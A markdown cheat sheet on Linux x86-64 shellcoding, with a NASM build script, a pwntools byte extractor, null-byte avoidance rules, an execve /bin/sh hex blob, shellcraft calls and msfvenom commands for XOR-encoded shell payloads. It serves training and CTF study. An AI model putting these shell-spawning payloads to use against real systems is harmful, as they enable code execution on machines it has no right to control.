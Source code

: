 # Shellcoding
- [shellstorm](http://shell-storm.org/shellcode/index.html)
- [pwntools asm docs](https://docs.pwntools.com/en/stable/asm.html)
- [pwntools cli docs](https://docs.pwntools.com/en/stable/commandline.html)

## Basic toolchain

### Code
> build-shellcode.sh
```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 <filename>"
  exit 1
fi

run_flag=false
if [ "$2" == "--run" ]; then
  run_flag=true
fi

filename=$(basename -- "$1")
filename_noext="${filename%.*}"

nasm -f elf64 "$1" -o "${filename_noext}.o"

ld "${filename_noext}.o" -o "${filename_noext}.linked"

python parse-shellcode.py "${filename_noext}.linked"

if [ "$run_flag" == true ]; then
  ./"${filename_noext}.linked"
fi
```

> parse-shellcode.py
```python
#!/usr/bin/python3

import sys
from pwn import *

context(os="linux", arch="amd64", log_level="error")

file = ELF(sys.argv[1])
shellcode = file.section(".text")

print(shellcode.hex())
print(''.join([r'\x{:02x}'.format(c) for c in shellcode]))

print("%d bytes - Found NULL bytes" % len(shellcode)) if [i for i in shellcode if i == 0] else print("%d bytes - No NULL bytes" % len(shellcode))
```
### Usage
```bash
./build-shellcode.sh some_asm_shellcode.asm --run
```

## Shellcode ASM template
> shellcode_asm_template.asm
```asm
section .text
    global _start

_start:
    xor rax, rax
    mov rax, 0x6574616161616c70
    push rax
    mov rax, 0x6d657420656d6f53 
    push rax

    xor rax, rax
    mov al, 0x01
    mov dil, 0x01
    mov rsi, rsp
    mov dl, 16
    syscall

    xor al, al
    mov al, 0x3c
    xor dil, dil
    syscall
```

## Compliance 
The shellcode must fill the following requirements:
- Does not contain variables
  - The entire shellcode must be under the `.text` section. 
  - Move strings to the stack, max size per "push" is 8 bytes, in reverse order.
```asm
mov rbx, 'hi'
push rbx
mov rbx, 'bonjour '
push rbx
mov rsi, rsp
```
- Does not refer to direct memory addresses
  - Replace with calls to labels or rip-relative addresses (for calls and loops)
  - Push to the Stack and use rsp as the address (for mov and other assembly instructions)
- Does not contain any null bytes (00)
  - Use registers that match the data size (like `mov al, 1` instead of `mov rax, 1`)
```asm
    mov bx, 'hi'
    push bx
    mov rbx, 'bonjour '
    push rbx
    mov rsi, rsp
    mov al, 1
    mov dil, 1
    mov dl, 10
    syscall
```

## With pwntools
```bash
pwn asm 'pop rax; push rax;' -c 'amd64'
#
# 5850
#

pwn disasm '5850' -c 'amd64'
#
#   0:    58                       pop    rax
#   1:    50                       push   rax
#

pwn disasm '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05' -c amd64
```

```python
python
>>> from pwn import *
>>> context.update(arch='amd64', os='linux')
>>> asm('mov rax,1')
>>> asm('mov rax,1').hex()
>>> printb = lambda x: print(' '.join(f'{byte:02x}' for byte in x))
>>> lprintb = lambda filename: print(' '.join(f'{byte:02x}' for byte in ELF(filename).section('.text')))
>>> printb(ELF('someExe').section('.text'))

>>> run_shellcode(unhex('4831db66bb7921...')).interactive()
```

## Shellcrafting
- [pwntools shellcraft amd64 docs](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
```bash
pwn shellcraft -l 'amd64.linux'
pwn shellcraft amd64.linux.sh
```

```python
from pwn import *
context(os="linux", arch="amd64", log_level="error")
dir(shellcraft)

syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
asm(syscall).hex()
```

### With msfvenom
```bash
msfvenom -l payloads | grep 'linux/x64'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```
